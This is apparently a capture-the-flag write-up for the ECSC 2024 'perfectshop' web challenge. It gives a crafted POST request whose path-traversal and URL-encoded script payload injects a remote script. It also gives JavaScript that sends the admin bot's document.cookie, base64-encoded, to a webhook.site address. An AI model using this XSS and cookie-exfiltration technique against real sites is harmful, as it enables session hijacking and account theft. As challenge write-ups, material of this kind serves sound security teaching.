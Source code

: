Send a post request to http://perfectshop.challs.open.ecsc2024.it/report with the following parameters:

* `id=2/../../search?q=%25%33%63script src=http://<REPLACE_WITH_YOUR_DOMAIN>/x%25%33%65%25%33%63%25%32%66%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%33%65/admin`
* `message=foo`

The static file `x` on your domain is included as JavaScript. Put the following code in `x`:

```javascript
window.location = "https://webhook.site/<REPLACE_WITH_YOUR_ID>?" + btoa(document.cookie);
```
